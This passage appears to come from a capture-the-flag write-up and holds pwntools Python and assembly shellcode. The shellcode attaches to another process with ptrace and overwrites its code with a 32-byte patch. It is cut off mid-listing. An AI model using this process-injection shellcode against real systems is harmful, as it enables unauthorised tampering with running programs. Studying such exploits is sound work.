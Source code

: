 ```python

patch = (0x401822 - 0x401802 - len(patch)) * asm('nop') + patch
assert(len(patch) == 32)
patches = [ u64(bytes(patch[i*8:(i+1)*8])) for i in range(4) ]

PTRACE_ATTACH = 16
PTRACE_POKETEXT = 4
PTRACE_DETACH = 17
addr = 0x401802
addr_exit = 0x401827
```

The above just has the dissembled section as documentation for the hardcoded variables, followed by our 32-byte patch that is then broken up into (4) 64-bit words; `ptrace` patching writes words.

The `PTRACE_...` values are taken directly from `sys/ptrace.h` 

```python
payload = asm(
f'''
```
```assembly
mov rdi, {PTRACE_ATTACH}
mov rsi, {pid}
xor rdx, rdx
xor r10, r10
mov rax, {constants.SYS_ptrace}
syscall

/* sleep(<=1) */
mov rdi, {binary.bss() + 0x100}
xor rsi, rsi
mov rax, {constants.SYS_gettimeofday}
syscall

mov rdx, rdi
mov rdi, {binary.bss() + 0x110}
loop:
mov rax, {constants.SYS_gettimeofday}
syscall
mov rax, [rdi]
sub rax, [rdx]
je loop

/* patch */
mov rdi, {PTRACE_POKETEXT}
mov rsi, {pid}
mov rdx, {addr}
mov r10, {patches[0]}
mov rax, {constants.SYS_ptrace}
syscall

add rdx, 8
mov r10, {patches[1]}
mov rax, {constants.SYS_ptrace}
syscall

add rdx, 8
mov r10, {patches[2]}
mov rax, {constants.SYS_ptrace}
syscall

add rdx, 8
mov r10, {patches[3]}
mov rax, {constants.SYS_ptrace}
```